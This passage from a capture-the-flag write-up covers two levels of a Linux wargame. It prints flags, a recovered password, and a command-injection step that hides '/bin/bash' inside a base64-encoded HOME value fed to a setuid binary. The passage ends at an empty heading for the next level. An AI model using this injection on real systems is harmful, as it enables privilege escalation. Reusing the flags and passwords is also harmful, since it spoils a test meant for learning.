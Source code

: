 ## User - aphrodite

### flag - 06

```plaintext
^fmPlsDByrwmEpRAKgeP^
```

### 任务目标

```plaintext title="mission.txt"
The user ariadne knows what we keep in our HOME.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root      aphrodite 4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 aphrodite aphrodite  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 aphrodite aphrodite 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 aphrodite aphrodite  807 Apr 23  2023 .profile
-r--r----- 1 ariadne   ariadne     21 Jul 26  2023 ariadne_pass.txt
-rw-r----- 1 root      aphrodite   22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      aphrodite  16K Jul 26  2023 homecontent
-rw-r----- 1 root      aphrodite  185 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
aphrodite@hades:/pwned/aphrodite$ export HOME=$(echo L3B3bmVkL2FwaHJvZGl0ZTsvYmluL2Jhc2g= | base64 -d);./homecontent
The content of your HOME is:
ariadne_pass.txt  flagz.txt  homecontent  mission.txt
ariadne@hades:/pwned/aphrodite$ cat ariadne_pass.txt 
iNgNazuJrmhJKWixktzk
```

## User - ariadne

### flag - 07

```plaintext
^FuGFaFNhtKNxUInxAtd^
```

### 任务目标

```plaintext title="mission.txt"
The user arete lets us use cp on her behalf.
```

### 行动

